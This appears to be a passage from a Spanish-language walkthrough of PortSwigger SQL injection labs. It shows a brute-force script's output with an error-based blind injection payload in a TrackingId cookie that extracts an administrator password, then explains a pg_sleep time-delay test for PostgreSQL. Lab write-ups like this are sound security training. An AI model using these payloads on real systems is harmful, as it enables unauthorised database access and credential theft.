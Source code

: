```bash
❯ python3 error.py
[o] Fuerza Bruta: TrackingId=RYv84rwBNkKgrR6I'||(select case when substr(password,20,1)='u' then to_char(1/0) else '' end from users where username='administrator')||'
[▇] Password: dq661c6kbqr9wemn3khu
```

![](/assets/portswigger/sqli/web65.png)

## SQL injection with time delays

- <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays>.

- Esta inyección es basada en tiempo y la base de datos es de **Postgress** asi que nos vamos a capturar la petición con burpsuite otra vez.

- El campo inyectable también es el mismo campo pero bueno esta es una inyección basada en tiempo para ver si esto es vulnerable a la de tiempo podemos hacer un `pg_sleep(10)-- -` y si la web tarda 10 segundos en responder es por que es vulnerable.

- Lo único que tienes que hacer para resolver el laboratorio lo único que tienes que hacer es esto. 

![](/assets/portswigger/sqli/web66.png)
